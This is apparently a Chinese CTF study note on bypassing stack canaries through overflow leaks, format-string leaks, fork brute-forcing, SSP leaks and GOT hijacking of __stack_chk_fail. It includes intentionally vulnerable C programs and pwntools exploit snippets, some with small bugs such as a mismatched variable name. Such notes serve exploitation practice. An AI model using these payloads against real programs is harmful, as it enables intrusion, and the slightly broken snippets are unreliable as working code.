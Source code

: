 # 总结1

by Maple

写了这么久的题了，但是看到题还是一头雾水，完全在瞎碰，写个小总结，系统整理整理吧

**从保护开始**

## 1. Canary

### 1.1 原理

Canary就是在栈底放一个随机数，如果缓冲区变量溢出，那么这个随机数也会被篡改，当函数结束的时候会对这个随机数检查，如果发现这个随机数变了，就会执行`_stack_chk_fail`函数终止程序

从汇编角度看：函数序言会向保存调用函数的栈底指针，然后设置被调用函数自身的栈底指针，最后分配栈空间，这3条汇编指令标志着一个经典的函数序言

>  比如`buuctf`中的`bjdctf_2020_babyrop2`，有开启Canary保护，就存在这样的代码
>
> ```assembly
> mov     rbp, rsp
> sub     rsp, 20h
> mov     rax, fs:28h
> ```

但是Canary的非即时检测就留下了一定的操作空间：

只要可以让Canary在函数未结束前泄露出来，构造payload时在它本应在的位置写上Canary就可以了

所以问题就变为了如何泄露出来Canary，了解一下Canary随机值的特点

（或者修改指向`_stack_chk_fail`的地址，让函数走向后门函数）

- 一般Canary会在`ebp-0x8`处存储，

- 其最低位设置为`\x00`

  >  这里本意时为了保证字符串可以被`\x00`截断，从而保护其它字节信息

### 1.2绕过思路

#### 1.2.1 覆盖截断获取随机值

先填充缓冲区变量到Canary的最低字节，然后获取泄露的Canary，最后根据Canary的值填充`rbp-0x8`的位置，此后调用函数栈指针可以随意覆盖

假设有一个题目这样布局

```c
  char buf[24]; // [rsp+0h] [rbp-20h] BYREF
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]
```

可以这样覆盖并泄露

```python
off_set = b'A'*(0x20-0x8)
p.sendline(off_set)
result = p.recvuntil(b'a'*(0x20-0x8)+b'\n')
canary = u64(b'\x00'+p.recv(7))
```

#### 1.2.2 格式化字符串直接泄露

格式化字符串可以完成任意位置读写操作，所以泄露Canary值也是很轻松的

以上面的例子来看

假设测试得到我们输入的内容在栈中第6个位置，并且栈顶到Canary的距离为`0x18(0x20-0x8)`

而一个不带长度的格式化字符会输出8/4个字节大小的数据，`0x18/0x8=3`,所以应该在第`6+3=9`位置处

payload如下：

```python
payload = b'%9$x'
p.sendline(payload)
canary = int(p.recvuntil('\n')[:-1],16)
```

#### 1.2.3 逐字节爆破绕过Canary

> 适用于有通过`fork()`函数创建的子进程的程序

某些题目中存在`fork()`函数，且程序开启了Canary函数，当程序进入到子进程的时候，**其Canary的值和父进程中Canary的值一样**（因为fork函数为拷贝父进程的内存），一次你在一定体哦阿健下我们可以将Canary爆破出来

需要的条件有：

- 程序中存在栈溢出的漏洞
- 可以覆盖到Canary的位置

> 对于32位程序，只需要对3字节进行爆破，爆破方式是先利用栈溢出复写次低字节，如果出错的化会报错并且重启子进程，获得正确的次低节点就不会报错，获取正确此地节点之后依次爆破次高字节和高字节

例程：

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>  
#include <sys/wait.h>
 
void getshell(void)
{
    system("/bin/sh");
}
 
void init(void)
{
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);
}
 
void vuln(void)
{
    char buf[100];
    memset(buf, 0, sizeof(buf));
    read(0, buf, 0x200);
    printf("%s\n", buf);
}
int main(void)
{
    init();
    while (1)
    {
        printf("Hello Hacker!\n");
        if (fork()) //father
        {
            wait(NULL);
        }
        else //child
        {
            vuln();
            exit(0);
        }
    }
 
    return 0;
}
```

`gcc pwn.c -no-pie -m32 -fstack-protector -z noexecstack -o pwn`编译

payload构造

```python
canary = b'\x00'
for i in range(3):
    for j in range(0,256):
        payload = b'a'*(0x70-0xC)+canary+p8(j)
        p.send(payload)
        # time.sleep(0.1)
        res = p.recv()
        if (b'stack smashing detected' not in res):
            print(f'the {i} is {hex(j)}')
            canary +=p8(j)
            break
    assert(len(canary) == i+2)
log.info('Canary；'+hex(u32((canary))))
```

#### 1.2.4 SSP泄露Canary

> 使用与Flag存储于内存空间中的情况

SSP全称为`Stack Smashing Protect`，这种方法可以读取内存中的值，当flag在内存中储存时，就可以用这个方法读取flag

直接看[这篇文章](https://www.anquanke.com/post/id/177832#h2-3)叭

#### 1.2.5 劫持`_stack_chk_fail`函数

如果Canary不对，程序会转到`stack_chk_fail`函数执行，而这个函数是一个普通的延迟绑定函数，可以通过修改GOT表来劫持这个函数

例程：

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
void getshell(void)
{
    system("/bin/sh");
}
int main(int argc, char *argv[])
{
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
 
    char buf[100];
    read(0, buf, 200);#栈溢出
    printf(buf);
    return 0;
}
```

` gcc pwn.c -m32 -fstack-protector -no-pie -z noexecstack -z norelro -o pwn`编译

> - 劫持函数要修改GOT表，所以关闭RELRO
> - 调用`getshell`函数，关闭pie

我们直到GOT表中存的是函数的实际地址，如果把`_stack_chk_fail`函数的got表地址替换为`getshell`的地址，在canary出错的情况下，调用`_stack_chk_fail`时就会直接获取到shell

直接用`fmtstr_payload`就行

```python
_stack_chk_fail_got = elf.got['_stack_chk_fail']
backdoor = elf.sym['getshell']
payload = fmtstr_payload(10,{stack_chk_fail_got:backdoor})
payload = payload.ljust(0x70,b'a')
p.send(payload)
```

